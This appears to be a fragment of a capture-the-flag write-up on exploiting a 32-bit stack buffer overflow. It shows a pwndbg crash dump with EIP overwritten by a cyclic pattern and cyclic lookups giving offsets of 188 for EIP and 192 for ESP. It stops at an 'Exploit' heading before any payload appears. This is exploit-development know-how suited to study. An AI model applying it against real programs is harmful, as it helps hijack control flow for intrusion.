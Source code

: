 ```bash
─────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]──────────────────────────────────────────────
*EAX  0xc9
*EBX  0x62616175 ('uaab')
*ECX  0xf7e258a0 (_IO_stdfile_1_lock) ◂— 0x0
 EDX  0x0
*EDI  0xf7ffcb80 (_rtld_global_ro) ◂— 0x0
*ESI  0x8049330 (__libc_csu_init) ◂— push ebp
*EBP  0x62616176 ('vaab')
*ESP  0xffffcfb0 ◂— 'xaabyaab'
*EIP  0x62616177 ('waab')
───────────────────────────────────────────────────────[ DISASM / i386 / set emulate on ]────────────────────────────────────────────────────────
Invalid address 0x62616177
────────────────────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────────────────
00:0000│ esp 0xffffcfb0 ◂— 'xaabyaab'
01:0004│     0xffffcfb4 ◂— 'yaab'
02:0008│     0xffffcfb8 —▸ 0xf7fc2400 ◂— 'gnu/libc.so.6'
03:000c│     0xffffcfbc ◂— 0x3e8
04:0010│     0xffffcfc0 —▸ 0xffffcfe0 ◂— 0x1
05:0014│     0xffffcfc4 —▸ 0xf7e23e34 (_GLOBAL_OFFSET_TABLE_) ◂— 0x223d2c /* ',="' */
06:0018│     0xffffcfc8 ◂— 0x0
07:001c│     0xffffcfcc —▸ 0xf7c23c65 (__libc_start_call_main+117) ◂— add esp, 0x10
──────────────────────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────────────────────
 ► 0 0x62616177
   1 0x62616178
   2 0x62616179
   3 0xf7fc2400
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg>
```

-   `EIP`

```bash
pwndbg> cyclic -l waab
Finding cyclic pattern of 4 bytes: b'waab' (hex: 0x77616162)
Found at offset 188
```

-   `ESP`

```bash
pwndbg> cyclic -l xaab
Finding cyclic pattern of 4 bytes: b'xaab' (hex: 0x78616162)
Found at offset 192
```

# 0x02 Exploit
